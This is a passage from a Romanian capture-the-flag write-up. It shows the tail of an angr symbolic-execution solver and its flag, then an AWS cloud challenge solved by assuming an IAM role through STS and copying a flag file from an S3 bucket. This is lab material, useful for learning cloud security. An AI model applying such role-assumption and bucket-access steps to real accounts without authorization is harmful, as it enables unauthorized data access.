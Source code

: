 ```python
    stdout_output = state.posix.dumps(sys.stdout.fileno())
    return b'felicitari!!' in stdout_output

  simulation.explore(find=is_successful)

  if simulation.found:
    solution_state = simulation.found[0]
    solution_bytes = solution_state.posix.dumps(sys.stdin.fileno())
    
    # Extract the flag by finding the closing brace
    flag_str = ""
    try:
      # Convert to string and clean up
      solution_str = solution_bytes.decode('utf-8', errors='ignore')
      # Find the proper flag format
      start = solution_str.find("OSC{")
      if start >= 0:
        end = solution_str.find("}", start)
        if end >= 0:
          flag_str = solution_str[start:end+1]
    except:
      pass
    
    print("Raw solution:", solution_bytes)
    if flag_str:
      print("Extracted flag:", flag_str)
    
  else:
    raise Exception('Could not find the solution')
```

**Flag:** `OSC{r3v_m4st3rz}`

## gold-bucket (Web/Cloud)

**Descriere:**
```
Într-o lume tot mai digitalizată, securitatea în cloud a devenit un aspect critic pentru companii și instituții care își migrează infrastructura și datele în medii cloud. Aceasta implică un set de politici, tehnologii și bune practici menite să protejeze datele, aplicațiile și serviciile stocate în cloud de acces neautorizat, atacuri cibernetice și pierderi de date.

Obiectivul este sa recuperezi un mesaj secret din serviciul de mai jos. Mult succes!
```

Această provocare implica accesarea unui bucket S3 în AWS pentru a obține flag-ul. Soluția a implicat asumarea unui rol prin AWS STS (Security Token Service) și utilizarea credențialelor temporare pentru a accesa bucket-ul S3 și a obține flag-ul.

**Soluție:**
```bash
# Asumăm un rol în AWS folosind STS
aws sts assume-role \
    --role-arn arn:aws:iam::011528296162:role/osc-golden-role \
    --role-session-name s3hacker-session \
    --tags Key=SessionName,Value=s3hacker-session

# Setăm credențialele temporare obținute 
export AWS_ACCESS_KEY_ID=?
export AWS_SECRET_ACCESS_KEY=?
export AWS_SESSION_TOKEN=?

# Descărcăm flag-ul din bucket
aws s3 cp s3://osc-golden-bucket/flag.txt .
```